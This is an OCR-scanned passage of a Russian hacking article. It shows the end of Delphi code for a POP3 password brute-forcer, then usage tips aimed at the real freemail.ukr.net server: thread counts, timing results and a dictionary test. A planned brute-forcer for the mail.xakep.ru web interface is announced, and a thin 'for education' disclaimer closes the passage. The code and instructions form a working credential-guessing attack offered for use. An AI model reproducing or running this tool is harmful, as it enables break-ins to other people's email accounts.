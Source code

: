           exit;
        //"pass password"
        sender('pass '+PassList.Strings[I2]+#13+#10);
        x:=recv(sock2,buf,sizeof(Buf),0);
        //Если подобралось
        if (x>3)and(buf[1]='+') then
        begin
          Rez:=false;
          Application.MessageBox(PChar('Pass = '+PassList.Strings[I2]),'ENJOY',mb_Ok);
          exit;
        end;
        try
          closesocket(sock2);
        except
        end;
      except
      end;
    end;
     
    end.

Адрес сервака перед использованием надо отпинговать (ping -a
freemail.ukr.net) и ввести IP. Кол-во процессов подбирается исходя из
железа. Это рабочий скелет брутфорсера, хоть и написан за пару часов.
При проверке, я создал файл-словарь, размером 1000 паролей и 666-ым шел
мой настоящий пароль. При одном процессе я задолбался ждать. При кол-ве
процессов 255, уже через 15 минут (на диалап), мне высветился мой
пароль. На шелле, аналогичная конструкция на перл, заняла примерно
столько же времени. Но это на 666-ом пароле, а на 1000000-ом я бы ждал
очень долго. Поэтому этот способ обладает очень призрачными шансами
что-либо подобрать и годится только для очень простых паролей.

P.S. В следующей статье я напишу, как исследовать web-интерфейс для
работы с почтой, написать брутфорс, подбирающий на нем пароли (кстати,
будет рассмотрен mail.xakep.ru), и подведу общие итоги.

P.P.S. Статья и программа предоставлена в целях обучения и вся
ответственность за использование ложится на твои хилые плечи.

Взято с <https://delphiworld.narod.ru>

